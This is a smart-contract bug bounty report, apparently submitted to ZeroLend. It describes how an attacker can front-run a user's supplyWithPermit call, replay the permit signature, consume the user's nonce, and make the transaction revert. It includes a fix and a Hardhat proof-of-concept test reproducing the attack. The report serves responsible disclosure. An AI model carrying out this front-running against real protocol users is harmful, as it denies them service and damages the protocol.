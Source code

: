 
# Attacker can grief a user by making his 'supplyWithPermit' call fail

Submitted on Sun Mar 03 2024 13:57:36 GMT-0400 (Atlantic Standard Time) by @djxploit for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28970

Report type: Smart Contract

Target: https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
When a user calls `supplyWithPermit` function, attacker can make the call revert by front-running. This happens because of a missing `try-catch` statement in the `supplyWithPermit` function.

## Vulnerability Details
When `supplyWithPermit` is called, by passing a permit signature, the contract calls the `permit` function of the asset to get approval to spend on behalf of caller. It then calls the `SupplyLogic.executeSupply` function to supply the asset. 

So an attacker sees the `supplyWithPermit` call in the mempool, and extracts the permit signature from the call's argument. Attacker then use this permit signature, to directly call the asset's `permit` function. This will give the approval to the contract address, but along with it will increase the user's nonce, thus making the signature invalid for any further use.

Due to this when the original  `supplyWithPermit` gets mined, it will revert, as the signature has become invalid. Hence the user's transaction will revert.

## Impact Details
Attacker can grief users by frontrunning the `supplyWithPermit` functions, making that functionality unusable by users.
Apart from `supplyWithPermit` the `repayWithPermit` function is also vulnerable to this issue.

## Remediation Details
Implement a try-catch statement. Inside the `supplyWithPermit` function, call the assets `permit` statement using a try statement, and catch any revert. That will resolve the issue. 

## References
https://www.trust-security.xyz/post/permission-denied
        
## Proof of concept
## Proof of Concept

Here is the test file. The specific test case showing the vulnerability is "Supply with permit test'"
```
import { expect } from 'chai';
import { BigNumber, Signer, utils } from 'ethers';
import { impersonateAccountsHardhat } from '../helpers/misc-utils';
import { ProtocolErrors, RateMode } from '../helpers/types';
import { getFirstSigner } from '@aave/deploy-v3/dist/helpers/utilities/signer';
import { makeSuite, TestEnv } from './helpers/make-suite';
import { HardhatRuntimeEnvironment } from 'hardhat/types';
import {
  evmSnapshot,
  evmRevert,
  DefaultReserveInterestRateStrategy__factory,
  VariableDebtToken__factory,
  increaseTime,
  AaveDistributionManager,
} from '@aave/deploy-v3';
import {
  InitializableImmutableAdminUpgradeabilityProxy,
  MockL2Pool__factory,
  MockL2Pool,
  L2Encoder,
  L2Encoder__factory,
} from '../types';
import { ethers, getChainId } from 'hardhat';
import {
  buildPermitParams,
  getProxyImplementation,
  getSignatureFromTypedData,
} from '../helpers/contracts-helpers';
import { getTestWallets } from './helpers/utils/wallets';
import { MAX_UINT_AMOUNT } from '../helpers/constants';
import { parseUnits } from 'ethers/lib/utils';
import { getReserveData, getUserData } from './helpers/utils/helpers';
import { calcExpectedStableDebtTokenBalance } from './helpers/utils/calculations';

declare var hre: HardhatRuntimeEnvironment;

makeSuite('Pool: L2 functions', (testEnv: TestEnv) => {
  const {
    INVALID_HF,
    NO_MORE_RESERVES_ALLOWED,
    CALLER_NOT_ATOKEN,
    NOT_CONTRACT,
    CALLER_NOT_POOL_CONFIGURATOR,
    RESERVE_ALREADY_INITIALIZED,
    INVALID_ADDRESSES_PROVIDER,
    RESERVE_ALREADY_ADDED,
    DEBT_CEILING_NOT_ZERO,
    ASSET_NOT_LISTED,
    ZERO_ADDRESS_NOT_VALID,
  } = ProtocolErrors;

  let l2Pool: MockL2Pool;

  const POOL_ID = utils.formatBytes32String('POOL');

  let encoder: L2Encoder;

  before('Deploying L2Pool', async () => {
    const { addressesProvider, poolAdmin, pool, deployer, oracle } = testEnv;
    const { deployer: deployerName } = await hre.getNamedAccounts();

    encoder = await (await new L2Encoder__factory(deployer.signer).deploy(pool.address)).deployed();

    // Deploy the mock Pool with a `dropReserve` skipping the checks
    const L2POOL_IMPL_ARTIFACT = await hre.deployments.deploy('MockL2Pool', {
      contract: 'MockL2Pool',
      from: deployerName,
      args: [addressesProvider.address],
      libraries: {
        SupplyLogic: (await hre.deployments.get('SupplyLogic')).address,
        BorrowLogic: (await hre.deployments.get('BorrowLogic')).address,
        LiquidationLogic: (await hre.deployments.get('LiquidationLogic')).address,
        EModeLogic: (await hre.deployments.get('EModeLogic')).address,
        BridgeLogic: (await hre.deployments.get('BridgeLogic')).address,
        FlashLoanLogic: (await hre.deployments.get('FlashLoanLogic')).address,
        PoolLogic: (await hre.deployments.get('PoolLogic')).address,
      },
      log: false,
    });

    const poolProxyAddress = await addressesProvider.getPool();
    const oldPoolImpl = await getProxyImplementation(addressesProvider.address, poolProxyAddress);

    // Upgrade the Pool
    await expect(
      addressesProvider.connect(poolAdmin.signer).setPoolImpl(L2POOL_IMPL_ARTIFACT.address)
    )
      .to.emit(addressesProvider, 'PoolUpdated')
      .withArgs(oldPoolImpl, L2POOL_IMPL_ARTIFACT.address);

    // Get the Pool instance
    const poolAddress = await addressesProvider.getPool();
    l2Pool = await MockL2Pool__factory.connect(poolAddress, await getFirstSigner());
    expect(await addressesProvider.setPriceOracle(oracle.address));
  });

  after(async () => {
    const { aaveOracle, addressesProvider } = testEnv;
    expect(await addressesProvider.setPriceOracle(aaveOracle.address));
  });

  it('Supply with permit test', async () => {
    // user0 is the attacker
    const { deployer, dai, aDai, users: [user0] } = testEnv;

    const chainId = Number(await getChainId());
    const nonce = await dai.nonces(deployer.address);
    const amount = utils.parseEther('10000');
    const highDeadline = '3000000000';
    const userPrivateKey = getTestWallets()[0].secretKey;
    
    const msgParams = buildPermitParams(
      chainId,
      dai.address,
      '1',
      await dai.symbol(),
      deployer.address,
      l2Pool.address,
      nonce.toNumber(),
      highDeadline,
      amount.toString()
    );
    const { v, r, s } = getSignatureFromTypedData(userPrivateKey, msgParams);

    await dai.connect(deployer.signer)['mint(uint256)'](amount);
    const referralCode = BigNumber.from(2);
    
    // Simulate frontrunning
    // Attacker see the below 'supplyWithPermit' call in mempool, so he call the permit() of DAI directly, 
    // by using the signature from the call. This will increase the nonce of the 'deployer', which
    // make the signature invalid for further use.
    await dai.connect(user0.signer)['permit(address,address,uint256,uint256,uint8,bytes32,bytes32)'](deployer.address,l2Pool.address,amount,highDeadline,v,r,s);

    // So when the actual supplyWithPermit call will get mined, it will revert, as the signature has become invalid because
    // of the frontrunning done by attacker, which increased deployer's nonce by directly calling the permit function of DAI.
    await expect(
      l2Pool.connect(deployer.signer)['supplyWithPermit(address,uint256,address,uint16,uint256,uint8,bytes32,bytes32)'](
        dai.address,
        amount,
        deployer.address,
        referralCode,
        highDeadline,
        v,
        r,
        s)
    )
      .to.be.revertedWith(
        "INVALID_SIGNATURE"
    );
  });
});
```
